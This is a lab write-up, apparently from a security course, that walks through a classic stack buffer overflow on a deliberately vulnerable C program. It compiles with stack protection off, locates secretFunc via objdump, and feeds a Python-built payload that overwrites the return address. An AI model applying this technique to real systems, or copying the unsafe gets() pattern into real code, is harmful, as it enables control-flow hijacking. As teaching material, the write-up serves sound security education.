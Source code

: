 # Attack `bof1.c`

```c++
#include <stdio.h>
#include <unistd.h>
void secretFunc()
{
    printf("Congratulation!\n:");
}
int vuln()
{
    char array[200];
    printf("Enter text:");
    gets(array);
    return 0;
}
int main(int argc, char *argv[])
{
    if (argv[1] == 0)
    {
        printf("Missing arguments\n");
    }
    vuln();
    return 0;
}
```

The target is to call the function `secretFunc()` by providing a large amount of input that overflow the size of the array `char array[200]`.

## Compile the source code

We compile the source code with `-fno-stack-protector` to disable the stack protector.

    gcc -g bof1.c -o bof1.o -fno-stack-protector -mpreferred-stack-boundary=2

![gcc -g bof1.c -o bof1.o](./img/bof1/gcc.png)

A new file `bof1.o` is created.

Here we get a warning:

```shell
bof1.c: In function 'vuln':
bof1.c:11:5: warning: implicit declaration of function 'gets' [-Wimplicit-function-declaration]
     gets(array);
     ^
/tmp/ccH5mRoJ.o: In function `vuln':
/home/seed/seclabs/review2/bof1.c:11: warning: the `gets' function is dangerous and should not be used.
```

This is because the source code used `gets()` which is a vulnerable function. It it doesn’t limit the amount of data it reads, making it susceptible to buffer overflows.

`gets()` has been removed from modern versions of the C standard because it can lead to arbitrary code execution via buffer overflow.

## Finding the address of the `secretFunc()`

In order to call the function `secretFunc()`, we need to know its address. We can obtain this address using `objdump`.

    objdump -d bof1.o | grep secretFunc

![objdump -d bof1.o | grep secretFunc](./img/bof1/objdump.png)

The address of the function is `0x0804846b`. When writing this address to the stack, we need to represent it in Little Endian format, meaning it is reversed in memory (`6b 84 04 08`)

## Attack

We will overflow the stack frame of the `vuln()` function, specifically the local `array` variable. The goal is to overwrite the saved return address (`eip`) on the stack, causing it to jump to `secretFunc()`.

Stack frame of `vuln()`:

![vuln()](./img/bof1/stackframe.png)

We need to input a large amount of charactors so that it exceed the 200 bytes char array plus 4 bytes of `ebp`, and overwrite the value of `eip` so that it will call the function `secretFunc()` instead of returning to `main()`.

Remember, the address of `secretFunc()` is `0x0804846b`, and we need to write it in reverse.

The input should be 200 bytes to fill the memory spared for the `array` local variable, and 4 bytes to fill the memory of `ebp`, then we will insert the address of `secretFunc()` into `eip`.

Since the input is so long, I will use Python to do it for me

    echo $(python -c "print('a' * 200 + 'b' * 4 + '\x6b\x84\x04\x08')")

Explain:

-   `'a' * 200`: 200 characters for the `array`.
-   `'b' * 4`: 4 characters for the `ebp`.
-   `'\x6b\x84\x04\x08'`: address of `secretFunc()` written in Little Endian format.

To pipe the output of the `echo` into the input of the program, we will add `| ./bof1.o 1` after the `echo`:

    echo $(python -c "print('a' * 200 + 'b' * 4 + '\x6b\x84\x04\x08')") | ./bof1.o 1

Result:

![result](./img/bof1/result.png)

We got the message `Congratulation!`, which means we have successfully redirect execution to `secretFunc()`!
